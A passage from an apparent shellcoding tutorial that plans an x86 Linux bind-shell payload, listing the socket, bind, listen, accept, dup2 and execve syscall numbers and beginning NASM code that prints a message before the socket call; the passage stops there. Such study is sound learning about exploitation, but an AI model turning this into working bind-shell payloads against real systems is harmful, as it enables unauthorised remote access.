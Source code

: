 Or the *syscallhex.sh* script (in **scripts/** folder)

```bash
sh syscallhex.sh listen
```



The system calls and their values are:

- Socket: 359 (0x167)

- Bind:     361 (0x169)

- Listen:   363 (0x16b

- Accept:   364 (0x16c)

- Dup2:     63 (0x3f)

- Execve:   11 (0xb)


Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"

![Screenshot](images/7.png)

Knowing this and the values from the Libemu's output, it is possible to write the nasm code:

```assembly
global _start			

section .text

_start:

	; Write message
	xor eax, eax
	mov al, 0x4 ; Syscall 4 = Write
	xor ebx, ebx
	mov bl, 1 ; $ebx = 0x1
	push 0x0a2e2e2e ; 'Binding port...' message
	push 0x74726f70
	push 0x20676e69
	push 0x646e6942
	mov ecx,esp ; $ecx = Address of stack, containing the message
	xor edx, edx 
	mov dl, 0x10 ; $edx = Message length (4*4=16)
	int 0x80

	; Socket - 359
	xor eax, eax
```